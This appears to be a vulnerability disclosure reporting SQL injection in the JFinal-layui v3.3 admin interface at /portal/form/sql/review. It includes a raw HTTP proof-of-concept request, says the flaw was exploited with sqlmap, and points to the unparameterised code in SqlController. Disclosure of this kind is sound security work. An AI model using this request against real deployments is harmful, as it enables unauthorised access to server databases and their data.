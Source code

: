 BUG_Author

Longlong Gong

# Project

Address: [JFinal-layui](https://gitee.com/QinHaiSenLin/Jfinal-layui)

## SQL inject

###  `/portal/form/sql/review` SQL inject

[Affected version]

v3.3



[Affected Component]

/portal/form/sql/review



[Software]

https://gitee.com/QinHaiSenLin/Jfinal-layui/repository/archive/JFinal-layui-pro-v3.3



[Description]

JFinal-layui system v3.3 has an SQL injection vulnerability in the SQL parameters of the '/portal/form/SQL/review' interface. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
GET /portal/form/sql/review?sql=*&configName= HTTP/1.1
Host: 192.168.1.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.184/portal/form/sql/add?treeId=&treeName=
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658; JSESSIONID=49FRXXt0l764c5H3QDVIBooQtei0-hVkK_0KIaNg; jfinalLayuiId=8c335d61399443e180882e3094497b39
Connection: keep-alive


```

Website backend management ->System management ->Custom SQL ->Add and preview

From the following, it can be seen that SQL parameters are not precompiled

Jfinal-layui-JFinal-layui-pro-v3.3\src\main\java\com\qinhailin\portal\form\ctrl\SqlController.java

![image-20250301155010454](assets/image-20250301155010454.png)

![image-20250301155053502](assets/image-20250301155053502.png)

![image-20250301155136083](assets/image-20250301155136083.png)

![image-20250301155224548](assets/image-20250301155224548.png)

Run directly through sqlmap

![image-20250301155452967](assets/image-20250301155452967.png)

![image-20250301155506902](assets/image-20250301155506902.png)
